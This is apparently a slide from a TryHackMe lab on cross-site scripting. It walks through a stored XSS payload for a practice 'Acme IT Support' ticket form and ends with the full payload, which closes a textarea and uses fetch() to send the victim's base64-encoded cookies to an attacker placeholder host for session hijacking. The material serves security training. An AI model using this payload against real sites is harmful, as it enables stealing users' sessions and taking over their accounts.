

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information

Let's breakdown the payload:
The </textarea> tag closes the textarea field.
The <script> tag opens open an area for us to write JavaScript.
The fetch() command makes an HTTP request.
{URL_OR_IP} is either the THM request catcher URL or your IP address from the THM AttackBox or your IP address on the THM VPN Network.
?cookie=  is the query string that will contain the victim's cookies.
btoa() command base64 encodes the victim's cookies.
document.cookie accesses the victim's cookies for the Acme IT Support Website.
</script>closes the JavaScript code block.
Now create another ticket using the above payload, making sure to swap out the {URL_OR_IP} variable to your settings (make sure to specify the port number as well for the Netcat listener). Now, wait up to a minute, and you'll see the request come through containing the victim's cookies.

</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>